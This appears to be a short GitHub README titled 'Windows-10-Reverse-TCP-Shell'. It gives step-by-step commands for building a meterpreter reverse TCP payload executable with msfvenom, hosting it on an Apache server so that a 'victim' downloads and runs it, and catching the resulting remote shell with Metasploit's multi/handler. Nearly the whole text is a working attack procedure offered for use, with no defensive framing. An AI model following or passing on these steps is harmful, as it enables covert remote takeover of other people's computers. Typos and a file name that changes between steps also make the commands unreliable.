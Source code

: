 # Windows-10-Reverse-TCP-Shell

Step by step instructions:-

 1)sudo apt update
 
 2)sudo apt full-upgrade -y(update kali'tool)
 
 3)msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your lisner ip address> LPORT=4444 -f exe -o /home/kali/Desktop/rs_exploitl.exe(creating payloads for  windows) 
 
4)Now supply this rs_exploitl.exe to traget machine(physically/wireless)
 
 •Or, you can copy rs_exploitl.exe to /var/www/html/. Then start apache2 server by using the following command:
 
 •Service apache2 start
 
 •Service apache2 status(verified the apache2 service was running)
 
 •Now from the victim’s machine we can browse “http:// 192.168.1.103/rs_exploit.exe” and it will automatically download the file.Then “double-clicked” and ran the file
 
 5)Now start Metasploit framework by using msfconsole
 
 6)use exploit/multi/handler(configuring payload)
 
 7)set PAYLOAD windows/meterpreter/reverse_tcp > windows/meterpreter/reverse_tcp
 
 8)set LHOST < your Ip address >
 
 9)set LPORT < PORT NO. >
 
10)exploit then hit enter.
